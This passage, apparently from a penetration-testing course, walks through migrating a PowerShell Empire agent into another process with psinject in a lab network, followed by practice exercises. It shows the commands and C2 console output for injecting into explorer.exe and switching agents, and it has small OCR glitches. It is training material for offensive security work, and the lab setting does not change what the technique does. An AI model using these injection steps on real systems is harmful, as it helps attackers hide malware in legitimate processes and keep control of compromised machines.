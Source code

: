 As with a meterpreter payload, Empire allows us to migrate our payload into a different process.
 
 We can do that by first using ps to view all running processes.
 
 Once we choose our target process, we’ll migrate the payload with ps inject command, including the name of the listener and the process id as our command arguments:

(Empire: S2Y5XW1L) > ps

ProcessName PID Arch UserName MemUsage
----------- --- ---- -------- --------
Idle 0 x86 N/A 0.00 MB
System 4 x86 N/A 0.00 MB
........
explorer 3568 x86 corp\offsec 3.41 MB
svchost 3820 x86 corp\offsec 9.18 MB
........
(Empire: S2Y5XW1L) > psinject http 3568

[*] Tasked U9M3SBHG to run TASK_CMD_JOB
[*] Agent U9M3SBHG tasked with task ID 4
[*] Tasked agent U9M3SBHG to run module powershell/management/psinject
Job started: BCMWAV
[*] Agent U9M3SBHG returned results
[*] Sending POWERSHELL stager (stage 1) to 10.11.0.22
[*] New agent DWZ49BAP checked in
[+] Initial agent DWZ49BAP from 10.11.0.22 now active (Slack)
[*] Sending agent (stage 2) to DWZ49BAP at 10.11.0.22 //-->

(Empire: S2Y5XW1L) > 


 It is important to note that, unlike the migration feature of the meterpreter payload, once the process migration is completed, the original Empire agent remains active and we must manually switch to the newly created agent as shown below:

(Empire: DWZ49BAP) > agents
[*] Active agents:
Name Lang Internal IP Machine Name Username Process Delay
--------- ---- ----------- ------------ --------- ------- -----
S2Y5XW1L ps 10.11.0.22 CLIENT251 corp\offsec powershell/2976 5/0.0
DWZ49BAP ps 10.11.0.22 CLIENT251 corp\offsec explorer/3568 5/0.0
(Empire: agents) > interact DWZ49BAP
(Empire: DWZ49BAP) > 
23.1.3.1 Exercises

Now that we’ve walked through the basic features of PowerShell Empire, try these exercises onyour own to solidify your knowledge.

1. Install and start PowerShell Empire on your Kali system.

3. Create a PowerShell Empire listener on your Kali machine and execute a stager on yourWindows 10 client.
 
5. Experiment with the PowerShell Empire agent and its basic functionality.
23.2 PowerShell Modules
